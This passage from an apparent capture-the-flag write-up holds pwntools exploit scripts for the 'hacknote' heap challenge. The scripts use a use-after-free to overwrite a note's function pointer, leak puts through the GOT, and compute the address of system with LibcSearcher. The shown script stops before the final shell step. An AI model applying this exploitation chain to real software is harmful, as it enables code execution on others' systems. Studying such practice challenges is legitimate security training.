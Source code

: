 ```python  
    p.recvuntil("Index :")
    p.sendline(str(index))

add(16,"aaa")
add(16,"bbb")

delete(0)
delete(1)

add(8,p32(magic))
view(0)

p.interactive()
```  
## 0x08 pwnable_hacknote  
```python
#coding=utf-8
from pwn import*
from LibcSearcher import*
#context.log_level = 'debug'
p=process("./hacknote")
#p=remote("node3.buuoj.cn",29406)
elf=ELF("./hacknote")
puts = 0x804862B

def add(size,content):
    p.recvuntil("choice :")
    p.sendline("1")
    p.recvuntil("size :")
    p.sendline(str(size))
    p.recvuntil("Content :")
    p.sendline(content)

def delete(index):
    p.recvuntil("choice :")
    p.sendline("2")
    p.recvuntil("Index :")
    p.sendline(str(index))

def view(index):
    p.recvuntil("choice :")
    p.sendline("3")
    p.recvuntil("Index :")
    p.sendline(str(index))

add(16,"aaa")
add(16,"bbb")

delete(0)
delete(1)

add(8,p32(puts)+p32(elf.got['puts']))
view(0)

puts_addr = u32(p.recvuntil("\xf7")[-4:])
libc = LibcSearcher("puts",puts_addr)
offset = puts_addr - libc.dump('puts')
system_addr = offset + libc.dump('system')
log.success("puts_addr==>" + hex(puts_addr))
log.success("system_addr==>" + hex(system_addr))

delete(2)
```